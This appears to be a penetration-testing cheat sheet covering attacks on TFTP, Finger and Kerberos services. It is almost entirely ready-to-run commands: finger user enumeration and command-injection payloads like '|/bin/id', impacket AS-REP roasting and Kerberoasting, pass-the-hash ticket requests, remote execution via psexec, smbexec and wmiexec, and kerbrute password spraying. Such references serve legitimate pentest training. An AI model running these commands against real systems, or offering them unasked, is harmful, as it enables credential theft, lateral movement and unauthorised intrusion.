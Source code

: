 ## Port 69 - UDP - TFTP

* Vulns tftp in server 1.3, 1.4, 1.9, 2.1, and a few more.
* Same checks as FTP Port 21.

```bash
nmap -p69 --script=tftp-enum.nse 10.11.1.111
```

## Port 79 - Finger

```bash
nc -vn 10.11.1.111 79
echo "root" | nc -vn 10.11.1.111 79

# User enumeration
finger @10.11.1.111       #List users
finger admin@10.11.1.111  #Get info of user
finger user@10.11.1.111   #Get info of user

finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Port 88 - Kerberos

Check [Kerberos dedicated](../post-exploitation/windows/ad/kerberos-attacks.md) section

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" IP
use auxiliary/gather/kerberos_enumusers # MSF

# Check for Kerberoasting: 
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

# GetUserSPNs
ASREPRoast:
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# Kerberoasting: 
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> 

# Overpass The Hash/Pass The Key (PTK):
python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
python3 getTGT.py <domain_name>/<user_name>:[password]

# Using TGT key to excute remote commands from the following impacket scripts:

python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

# https://www.tarlogic.com/blog/como-funciona-kerberos/
# https://www.tarlogic.com/blog/como-atacar-kerberos/

python kerbrute.py -dc-ip IP -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt

# https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
```